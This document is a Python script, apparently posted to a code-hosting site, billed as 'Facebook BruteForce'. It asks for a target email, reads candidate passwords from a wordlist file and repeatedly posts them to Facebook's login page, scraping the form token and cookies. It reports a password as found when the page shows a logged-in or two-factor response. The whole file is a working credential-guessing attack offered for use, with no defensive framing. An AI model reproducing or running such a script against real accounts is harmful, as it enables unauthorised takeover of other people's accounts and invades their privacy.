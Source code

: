 # fb
import requests
import threading
# import urllib.request
# import os
from bs4 import BeautifulSoup
import sys

if sys.version_info[0] !=3: 
	print('''--------------------------------------
	REQUIRED PYTHON 3.x
	use: python3 fb.py
--------------------------------------
			''')
	sys.exit()

post_url='https://www.facebook.com/login.php'
headers = {
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36',
}
payload={}
cookie={}

def create_form():
	form=dict()
	cookie={'fr':'0ZvhC3YwYm63ZZat1..Ba0Ipu.Io.AAA.0.0.Ba0Ipu.AWUPqDLy'}

	data=requests.get(post_url,headers=headers)
	for i in data.cookies:
		cookie[i.name]=i.value
	data=BeautifulSoup(data.text,'html.parser').form
	if data.input['name']=='lsd':
		form['lsd']=data.input['value']
	return (form,cookie)

def function(email,passw,i):
	global payload,cookie
	if i%10==1:
		payload,cookie=create_form()
		payload['email']=email
	payload['pass']=passw
	r=requests.post(post_url,data=payload,cookies=cookie,headers=headers)
	if 'Find Friends' in r.text or 'Two-factor authentication required' in r.text:
		open('temp','w').write(str(r.content))
		print('\npassword is : ',passw)
		return True
	return False

print('\n---------- Welcome To Facebook BruteForce ----------\n')
file=open('passwords.txt','r')

email=input('Enter Email/Username : ')

print("\nTarget Email ID : ",email)
print("\nTrying Passwords from list ...")

i=0
while file:
	passw=file.readline().strip()
	i+=1
	if len(passw) < 6:
		continue
	print(str(i) +" : ",passw)
	if function(email,passw,i):
		break
